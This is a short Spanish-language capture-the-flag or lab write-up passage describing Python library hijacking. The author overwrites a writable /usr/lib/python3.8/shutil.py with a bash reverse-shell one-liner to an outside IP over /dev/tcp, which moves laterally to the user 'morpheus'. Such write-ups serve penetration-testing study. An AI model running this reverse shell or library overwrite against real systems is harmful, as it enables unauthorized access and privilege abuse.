 ![img](/assets/img/imagenes/Pasted image 20231121223908.png)

### hacemos un ls -l de la libreria. en este caso es la /usr/lib/python3.8 debido a que siguen una orden y aqui llamamos la libreria que se esta utilizando en el archivo. en este caso seria as:

```python
	/usr/lib/python3.8/shutil.py
```

### podemos ver que el usuario death tiene permisos de lectura y escritura sobre esta libreria asi que aprovecharemos esto para modificarla con el siguiente comando 

```python
	echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6/8888 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### de esta manera vamos a editar la librería y vamos a inyectar una shell y nos pondremos en escucha en el puerto que hemos especificado

![img](/assets/img/imagenes/Pasted image 20231121225529.png)

### de esta manera hemos logrado hacer el movimiento lateral hacia el usuario morpheus

### WE ARE MORPHEUS

